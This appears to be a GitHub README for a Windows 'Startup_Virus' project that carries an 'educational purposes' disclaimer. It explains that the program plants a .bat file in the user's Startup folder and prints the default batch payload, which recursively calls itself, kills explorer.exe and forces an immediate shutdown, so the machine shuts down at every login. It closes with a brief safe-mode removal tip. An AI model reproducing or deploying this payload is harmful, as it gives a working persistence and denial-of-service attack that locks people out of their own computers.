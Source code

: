 # Startup_Virus

**Everything was done purely for educational purposes. The spread of viruses is bad! and illegal!**

Simple virus. It is creating .bat file in %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.

You can easily edit it. By default, the file contains the following code:       `
   system %0 %0 
   taskkill /F /IM explorer.exe
   shutdown /s /t 1
`.
Then it will shutdown ur computer.

You can defeat this virus by deleting the .bat file in your Startup folder in safe mod.

